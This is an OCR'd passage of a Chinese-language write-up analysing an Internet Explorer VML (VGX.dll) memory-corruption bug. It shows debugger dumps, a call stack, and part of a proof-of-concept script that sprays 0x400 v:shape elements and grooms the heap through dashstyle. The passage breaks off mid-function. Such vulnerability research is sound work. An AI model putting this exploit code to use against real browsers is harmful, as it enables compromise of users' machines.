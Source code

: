 	08a1a08c 00000044 08a1a0e4 0b354f84 083f1754

	08a1a09c 08a1a094 08a1a130 75f03cef 22710ff0

	08a1a0ac 00000024 00000004 0000000a 00000002

	08a1a0bc 0b354ff4 0b354fe4 08a1a624 732c223c

	08a1a0cc 00000000 75eff958 75ef443a 764c66bc

先别急着在VGX!COALineDashStyleArray::get_item下断点，我们可以看到这几个函数的参数，可以看到VGX!ORG::Get的第一个参数也是VGX!COALineDashStyleArray::get_item的第一个参数，这个参数是更前面的函数传进来的，而再上面的函数就已经脱离了VGX.dll函数，也就是说VGX!COALineDashStyleArray::get_item函数应该只是用于触发异常，而不是真正的漏洞点。

	08aa9af4 21635060 00000004 msvcrt!memcpy

	220c8fe8 08aa9af4 00000044 VGX!ORG::Get+0x27

	220c8fe8 00000044 08aa9b5c VGX!COALineDashStyleArray::get_item+0x8c

那么接下去只能重新再找别的进行分析，看了作者的网上其他人的，都是从POC开始分析。

POC首先创建了两个数组和0x400个v:shape元素

	var rect_array = new Array()

	var a = new Array()

	function createRects(){

	for(var i=0; i<0x400; i++){

		rect_array[i] = document.createElement("v:shape")

		rect_array[i].id = "rect" + i.toString()

		document.body.appendChild(rect_array[i])

		}

	}

接下来是按钮的代码，函数首先获取前面0x400个shape元素的_vgRuntimeStyle属性，即运行时样式，然后再通过它获取rotation（元素旋转）属性，然后再设置vml1的dashstyle属性，长度为0x2c。然后设置了两个属性长度为0-1，这里应该就是导致溢出的漏洞点了。

	function crashme(){

		var vml1 = document.getElementById("vml1")

		var shape = document.getElementById("shape")

		for (var i=0; i<0x400; i++){ //set up the heap

		a[i] = document.getElementById("rect" + i.toString())._vgRuntimeStyle;

		}

		for (var i=0; i<0x400; i++){

			a[i].rotation; //create a COARuntimeStyle

			if (i == 0x300) { //allocate an ORG array of size B0h

				vml1.dashstyle = "1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24
				25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44"
